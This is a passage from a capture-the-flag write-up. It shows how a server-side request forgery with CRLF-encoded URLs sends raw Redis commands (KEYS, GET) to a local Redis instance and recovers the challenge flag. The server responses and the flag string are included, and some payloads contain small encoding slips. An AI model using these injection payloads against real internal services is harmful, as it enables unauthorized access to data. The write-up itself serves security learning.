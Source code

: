     # Cluster
    cluster_enabled:0
    
    # Keyspace
    db0:keys=1,expires=0,avg_ttl=0
    
    -ERR unknown command `HTTP/1.1`, with args beginning with: 

Redis is a **key-value** database, so I needed to know what keys were in the db.

### Exploit

> **Note**: Every line must be teminated with `\r\n`, so URLEncoded is `%0d%0a`

**Get all keys : **

    *2
    $4 
    KEYS 
    $1 
    *
Payload:
`http://127.0.0.1:6379/%0d%0a*2%0d%0a$4%0d%0aKEYS%0d%0a$1%0d%0a*0d%0a`

Server response was:
    
	debug response:
    
    
    $-1
    *1
    $4
    flag
    -ERR unknown command `HTTP/1.1`, with args beginning with: 

**Bingo**, there was a key called flag!

**Get flag key value: **


    *2 
    $3 
    GET 
    $4 
    flag
Payload.
`http://127.0.0.1:6379/%0d%0a*2%0d%0a$3%0d%0aGET%0d%0a$4%0d%0aflag0d%0a`

And the response was:


    
    debug response:

    $-1
    $28
    flag{r3d_pWn_is_buT_n0T_pwN}
    -ERR unknown command `HTTP/1.1`, with args beginning with: 
    


So, flag is:
`flag{r3d_pWn_is_buT_n0T_pwN}`
